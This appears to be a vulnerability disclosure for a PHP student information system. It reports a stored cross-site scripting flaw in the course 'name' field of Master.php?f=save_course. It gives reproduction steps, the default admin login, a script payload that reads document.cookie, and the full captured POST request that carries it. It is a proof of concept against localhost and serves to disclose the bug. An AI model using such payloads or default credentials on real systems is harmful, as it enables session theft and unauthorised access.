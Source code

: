 BUG_Author:wangshiyou

Vulnerability url: /sis/classes/Master.php?f=save_course

POST form-data parameter name exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/sis/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Course List" and Click on "+ Add New Course".

3.Put Payload into the Course parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/sssddc11/bug_report/blob/master/xss1.png)

4.Click on Save

Transmission packet

```
POST /sis/classes/Master.php?f=save_course HTTP/1.1
Host: localhost
Content-Length: 557
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvHu24DiYwx7RUiq4
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/sis/admin/?page=courses
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=uliaml90ktvaestc2mev4vp09m
Connection: close

------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="department_id"

2
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundaryvHu24DiYwx7RUiq4
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryvHu24DiYwx7RUiq4--
```

5.Payload will trigger when a user visits on http://localhost/sis/admin/?page=courses

![image](https://github.com/sssddc11/bug_report/blob/master/xss2.png)
